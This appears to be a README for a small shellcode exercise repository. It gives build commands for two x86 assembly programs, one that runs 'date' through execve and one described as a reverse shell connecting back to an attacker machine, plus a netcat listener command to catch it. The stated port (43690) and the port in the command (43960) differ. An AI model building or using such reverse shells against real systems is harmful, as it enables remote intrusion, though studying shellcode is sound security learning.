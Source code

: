 # Shellcode

## shell-code 1
The shell is execute command `/bin/sh -c date` using system call *execve*.

### Build and run 
```
nasm -g -f elf -o shell1.o shell-code1.asm
ld -m elf_i386 -o shell1 shell1.o
./shell1
```

## shell-code 2
A reverse shell connects back to the attacker machine, then executes a shell redirects all input&output to the socket. 
Netcat is used to listen for the reverse shell connection on port 43690.

### Build
```
nasm -g -f elf -o shell2.o shell-code2.asm
ld -m elf_i386 -o shell2 shell2.o
```
### Run netcat
```
nc -lvnp 43960
./shell2
```

